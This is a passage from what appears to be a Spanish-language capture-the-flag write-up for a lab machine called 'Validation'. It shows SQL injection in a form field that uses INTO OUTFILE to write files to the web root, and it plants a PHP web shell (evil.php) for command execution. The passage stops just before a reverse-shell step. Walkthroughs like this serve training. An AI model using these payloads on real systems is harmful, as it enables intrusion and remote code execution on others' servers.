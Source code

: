 Podemos ver las diferentes bases de datos del sistema, en este punto podríamos probar si tenemos capacidad de escritura utilizando **into outfile** dentro de /var/www/html, pues el servidor está corriendo allí según el error:

```
username=test&country=Brazil' union select "testing" into outfile "/var/www/html/testing.txt"-- -
```

Vamos entonces hacia el navegador para ver si ha creado el recurso:

![](/imagenes/Validation/validationweb6.png)

Observamos que si se creó. Por lo tanto, tenemos una vía potencial de ganar acceso a la máquina, esto lo realizaremos intentando subir un archivo malicioso para poder entablar una conexión hacia nuestra máquina desde el servidor, en primer lugar vamos a crear el siguiente payload:

```
username=test&country=Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/evil.php"-- -
```
Al ingresar al recursos creado tenemos:

![](/imagenes/Validation/validationweb7.png)

Por lo tanto, ahora solo basta con asignarle un valor a la variable **cmd** para ejecutar comandos:

![](/imagenes/Validation/validationweb8.png)

El siguiente paso es entablar una conexión reversa con nuestra máquina, en este caso usaremos lo siguiente:
